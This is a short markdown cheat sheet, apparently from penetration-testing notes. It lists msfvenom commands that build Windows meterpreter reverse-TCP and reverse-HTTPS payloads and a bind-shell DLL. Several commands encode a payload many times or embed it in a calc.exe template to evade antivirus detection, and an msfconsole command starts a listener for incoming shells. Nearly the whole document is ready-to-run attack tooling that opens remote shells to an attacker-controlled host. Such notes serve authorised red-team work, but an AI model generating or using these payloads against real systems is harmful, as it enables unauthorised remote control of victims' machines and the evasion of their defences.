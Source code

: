 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```


##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Bind Shell - DLL Payload:
```
msfvenom --platform Windows -p windows/shell_bind_tcp LPORT=443 -f DLL -o bind_shell.dll
```

#### Encoding:

```
-e encoder type
-i how man times to encode
```
#### Filler and bad characters:
```
-n the amound of bytes to add at the beginning
-b exclude bad chars (\x00 common filler, searched for by AV)
```


##### MSF Console - start a listener/handler:
```
msfconsole -qx "use exploit/multi/handler;
set payload windows/meterpreter/reverse_tcp;
set lhost 10.0.0.1;
set lport 443;
exploit -j"
```


## Custom payload

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
    msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
    msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
    
 
